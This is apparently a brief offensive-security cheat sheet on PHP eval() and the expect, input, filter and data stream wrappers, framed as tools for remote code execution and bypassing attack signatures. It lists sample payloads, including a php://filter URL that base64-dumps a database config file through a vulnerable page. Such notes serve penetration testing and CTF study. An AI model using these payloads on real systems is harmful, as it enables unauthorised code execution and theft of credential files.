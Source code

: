 ## The Eval() function
The `eval()` function in php will parse the string supplied to it into PHP code.  Great for RCE  

## PHP Filters
| Filter | Description | Example |
|--|--|--|  
|expect|Executes system commands, but is not enabled by default| `expect://ls`|  
|input|Send Payload through POST method on PHP | `php://input` |
|filter|Wrapper filter useful in bypassing attack signatures. Use this to retrieve php file using a vulnerable php page | without encoding:<br>`php://filter/resource=page.txt`<br>with encoding<br>`php://filter/convert.base64-encode/resource=<file>`<br>`http://example.com/index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/db.php` | 
|data|Inject php code directly into a url||

